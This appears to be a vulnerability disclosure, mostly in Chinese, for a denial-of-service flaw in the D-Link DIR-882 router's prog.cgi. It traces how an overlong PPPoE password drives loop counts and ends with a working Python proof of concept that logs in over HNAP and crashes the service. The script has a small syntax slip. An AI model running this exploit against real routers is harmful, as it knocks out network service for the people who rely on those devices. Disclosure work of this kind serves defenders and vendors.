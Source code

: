 # Dlink DIR-882 DOS漏洞
## Overview
- 厂商官网：https://support.dlink.com/index.aspx 
- 固件下载地址：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
Dlink DIR-882_A1_FW1.30B06fix03中存在DOS漏洞，可导致prog.cgi崩溃。

## Affected version
![](pic/version.png "")
图示为路由器的最新固件:A1_FW1.30B06fix03
## Vulnerability details
在网上可以找到的固件版本是1.30。

![](pic/web.png "")

在prog.cgi中，我们可以在sub_46C6CC设置PPPoE功能的代码中找到细节，程序将/SetWan3Settings/Password参数获取的内容传递给V33.

![](pic/code1.png "")

V33参数由decrypt_aes()函数调用。在decrypt_aes()函数中，它被传递给sub_427184()。

![](pic/code2.png "")

在函数sub_427184()中，传入参数的长度被调用作为两个for循环中的循环次数。

![](pic/code3.png "")

所以循环次数是可控的，如果循环次数足够长，就会导致dos。
## Vulnerability exploitation condition
登录后需要获取cookie才能执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下POC攻击进行攻击

Poc is as follows
```python
import math
import re
import time
from hashlib import md5

import requests
IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):.
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan3Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DHCPPPPoE</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan3Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan3Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan3Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
运行poc后，prog.cgi的进程号发生了变化，说明prog.cgi已经重启，正常的数据包不会引起进程变化。
运行前:

![](pic/a1.png "")

运行后：

![](pic/a2.png "")

## CVE-ID
unsigned
